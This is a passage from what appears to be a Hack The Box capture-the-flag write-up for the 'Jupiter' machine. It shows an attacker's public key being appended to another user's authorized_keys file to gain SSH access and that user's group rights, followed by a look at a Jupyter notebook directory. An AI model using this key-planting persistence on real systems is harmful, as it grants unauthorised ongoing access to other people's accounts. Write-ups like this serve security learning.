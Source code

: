 ### SSH as juno

At this point, I’ve already noticed the Jupyter process running as the other user, jovian. I’ve also noted that the folder in `/opt` is in the science group.

Interesting, juno should also be a member of science:

```
0xdf-5.1$ cat /etc/group | grep science
science:x:1001:juno,jovian

```

When I get a shell as juno by running a SetUID and/or SetGID `bash`, it only brings in the effective userid and/or group id. It doesn’t bring in all the other groups that that user may belong to.

I’ll go into juno’s `.ssh` directory and add my public key to the `authorized_keys` file:

```
0xdf-5.1$ cd /home/juno/.ssh/
0xdf-5.1$ ls
authorized_keys
0xdf-5.1$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys

```

Now I can SSH in as juno:

```
oxdf@hacky$ ssh -i ~/keys/ed25519_gen juno@jupiter.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
...[snip]...
juno@jupiter:~$

```

This shell has the science group:

```
juno@jupiter:~$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)

```

### Access To Jupyter Notebook

#### /opt/solar-flares

The `/opt/solar-flares` directory has a bunch of files related to a Jupyter Notebook:

```
juno@jupiter:/opt/solar-flares$ ls
cflares.csv  flares.csv  flares.html  flares.ipynb  logs  map.jpg  mflares.csv  start.sh  xflares.csv

```
